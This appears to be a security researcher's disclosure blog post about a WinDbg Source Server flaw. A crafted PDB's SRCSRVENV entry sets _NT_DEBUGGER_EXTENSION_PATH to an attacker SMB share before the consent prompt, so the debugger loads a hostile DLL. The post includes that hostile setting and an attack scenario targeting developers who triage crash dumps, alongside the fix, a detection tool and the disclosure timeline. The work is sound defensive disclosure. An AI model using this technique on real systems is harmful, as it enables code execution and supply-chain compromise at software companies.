 ```yaml
---
title: Exploiting WinDbg's Source Indexing
author: alexander
date: 2023-08-23 00:34:00 +0800
categories: [Vulnerability, MS]
tags: [srcsrv, rce]
comments_id: 1
image:
  path: /assets/img/1/ppc.png
  alt: SRCSRV Fail

---
```


This attack surface was actually noticed by me back in early days of windows development, somewhat about year 2016. While doing enterprise development, you inevitably need to respond if your product crashes at the end user side, and typical way for windows development is automatic collection of the crash dumps from end user to your company development infrastructure. The implementation of this process may vary, but usually it includes following steps:
1. Generation of crash dump at user side
2. Sending the crash dump to some dump collection server
3. Automatic triage
4. Notify developers about new bug
5. Developer doing manual triage

This process is already very complex and prone to vulnerabilities, but today we will focus on stage #5.

### Risk
Attacks on actual developers are highly dangerous, since this kind of staff usually has local admin rights, as well as access to large portion of source code, code signing certificates, and documentation, including write access to a part of product code. The impact may vary from information leaks to actual trojanization of company products, which will cost enormous sum for a company.


### Vulnerability summary
The vulnerability that we will describe today allows remote attackers to execute arbitrary code on affected installations of Microsoft WinDbg with Source Server client enabled. Access from target host to attacker-supplied SMB-share is required to exploit this vulnerability remotely. The specific flaw exists within the implementation of the SRCSRV Stream processing of pdb file by srcsrv.dll. The issue results from the improper usage of SRCSRVENV variable in SRCSRV stream of pdb file, which allows attacker to set arbitrary environment variable in current WinDbg instance. This behaviour may be abused to trigger DLL hijacking during DbgEngine reinitialization, and result in arbitrary DLL execution, including DLLs accessible by UNC paths, e.g. from an SMB server.

#### Description

**Products affected**

- WinDbg 10.0.19041.685
- Microsoft Source Server (srcsrv.dll) 10.0.19041.685

**Classification**

- Security feature bypass
- Local privilege elevation
- Remote code execution
- Code injection

### Details

WinDbg has feature called Source Indexing which allows developers to embed instructions to WinDbg on how to download source code for specific build of a PE file. These instructions are presented within a form of "ini" file, which can be embedded to a "srcsrv" stream of a PDB file, which is generated by MSVC compiler alongside to executable file, to provide additional debug information for the application. ![Srcsrv stream content example](/assets/img/1/clip_image001.png)

This ini files contain the following main keys:

- SRCSRVCMD - specifies command line template which actually downloads source code, e.g. "tf.exe get …"
- SRCSRVENV - specifies environment variables for SRCSRVCMD in form of "KEY=VALUE"

To mitigate execution of malicious command lines, default configuration of SrcSrv requires user consent before execution, which allows user to decide if the command is safe or not. User also has option (and desire) to turn off those consents permanently:
![Source server consent dialog](/assets/img/1/clip_image003.png)

While having this legacy security measure in place, Srcsrv.dll uses SRCSRVENV value to set environment variable in current WinDbg instance **before** the consent dialog is shown, which renders this security measure ineffective in this scenario.

![Vulnerable code](/assets/img/1/clip_image002.png)


### Remote exploitation scenario
Having all this information, let's plan the remote attack scenario.
Imagine that company X uses dump servers to collect crashdumps from customers for postmortem debugging of their software. Malicious actors craft a PDB file which triggers this vulnerability: they embed a SRCSRV stream to PDB with SRCSRVENV set to
`_NT_DEBUGGER_EXTENSION_PATH=\\192.168.1.2\box\1337\`

![Example setting](/assets/img/1/clip_image004.png)

This specific environment variable is used by Windbg engine as a search path for extension DLLs, which will be explained later.

They also craft a minidump file with a PE file in memory containing forged CV_INFO_PDB70 structure, and a PDB file which triggers this vulnerability. This structure is a standard way to point WinDbg to a location of a PDB file for a PE.

![Default value of PDB path in CV_INFO_PDB70 structure](/assets/img/1/clip_image005.png)

 In this case, attacker sets PdbFileName to a UNC path to SMB share, which contains a .pdb file with a crafted SRCSRV stream. Employee of Company X receives minidump file for crashdump analysis, and opens it in WinDbg, which loads a .pdb file from the SMB share. WinDbg identifies SRCSRV stream from PDB, and passes SRCSRV stream contents to srcsrv.dll SrcSrvExecTokenA function. This function reads SRCSRVENV variable and sets environment variable \_NT_DEBUGGER_EXTENSION_PATH. At this point the vulnerability is triggered. Later it displays consent window, but no matter of user consent, the WinDbg instance has spoiled process environment. After dealing with this crafted minidump, employee of Company X opens any minidump or executable binary (in the current WinDbg instance), and DbgEngine will load extension DLLs from the attacker-supplied SMB share.

![WinDbg loads attacker-supplied DLL](/assets/img/1/clip_image006.png)

Current attack scenario is based on \_NT_DEBUGGER_EXTENSION_PATH variable modification, which is basically a path to WinDbg debugger extensions like ext.dll/ntsdexts.dll/etc. They are being loaded at DbgEngine initialization, so the DLL hijacking will occur if user loads any other dump in current WinDbg instance.

### Root cause and remediation

SRCSRVENV is meant to provide environment variables to SRCSRVCMD command execution, so it must be specified e.g. on lpEnvironment argument of CreateProcess call, not for context of calling process using SetEnvironmentVariable.

**Fix available**

Ensure to use SDK version 10.0.22621.0 and higher.

**For older SDKs**

A tool was released for quick forensic of windows dump files: https://github.com/ph1048/dump_pdb_check

It checks a windows dump file for references of PDBs by malformed or UNC paths. It can be built in your dump server, or used manually.

### Supporting materials & references

Source indexing description: https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/source-indexing

**Communication history**

- 22 march 2021 – Report submitted to Microsoft
- 22 march 2021 – Report acknowledged by Microsoft
- 2 april 2021 – Problem confirmed by Microsoft
- 7 april 2021 – Bounty was awarded
- 17 july 2021 – Fix in testing
- 27 july 2021 – Plan to release fix in October SDK
- 9 october 2021 – Temporary CVE was assigned CVE-2021-X41358
- 13 october 2021 – MS decided to refuse CVE-2021-41358 registration
- 23 august 2023 – This article is published

